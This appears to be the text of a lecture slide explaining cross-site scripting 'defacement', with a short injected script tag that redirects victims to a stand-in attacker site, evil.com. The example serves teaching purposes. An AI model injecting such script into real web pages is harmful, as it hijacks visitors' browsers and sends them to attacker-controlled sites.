

# XSS attacks: “defacement”
Attacker injects script that automatically redirects victims to attacker’s site

<script>
document.location =
    “http://evil.com”;
</script>